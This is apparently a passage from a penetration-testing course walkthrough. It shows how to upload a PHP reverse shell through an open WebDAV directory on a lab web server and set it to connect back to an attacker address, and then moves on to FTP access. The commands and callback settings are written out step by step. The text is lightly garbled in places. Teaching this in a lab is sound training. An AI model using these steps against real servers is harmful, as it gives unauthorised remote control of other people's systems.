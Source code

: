 The target system is running a web server.

```
http://10.2.17.5/
```

We have multiple web applications. What WebDAV is used for in regards to storing of files and the sharing of documents.

```
http://10.2.17.5/dav/
```

We can use this folder to upload any files that we would like to upload. If we wanted to gain a reverse shell, we can upload a PHP reverse shell to this directory and then execute it or launch it with the browser and we shoule receive a reverse shell if we set up the netcat listener.

How do we obtain a reverse shell? The easiest way we can obtain one is either to generate one with msfvenom, or alternatively, take advantage of Kali Linux system.

```
ls -al /usr/share/webshells/
ls -al /usr/share/webshells/php/
```

If you're not familiar with Apache and Linux and the LAMP stack in general, why we're uploading PHP. If you remember in the previous section, where we were covering Windows exploitation, the web server technology was Microsoft IIS, which meant that the only file extensions that could be executed were ASP or ASPX. In the context of Apache and Linux, that is going to be PHP. So we need a PHP reverse shell.

```
cp /usr/share/webshells/php/php-reverse-shell.php .
ls
mv php-reverse-shell.php shell.php
ls
vim shell.php
```

Kali Linux: 10.10.11.2

```
$ip = '10.10.11.2';
$port = 1234;
```

Reverse shells involve the target connecting back to the attacker system.

```
ftp 10.2.17.5 21

service
service

ftp> cd /
ftp> ls
```

The default directory where Apache stores all of its data is under `/var/www`.
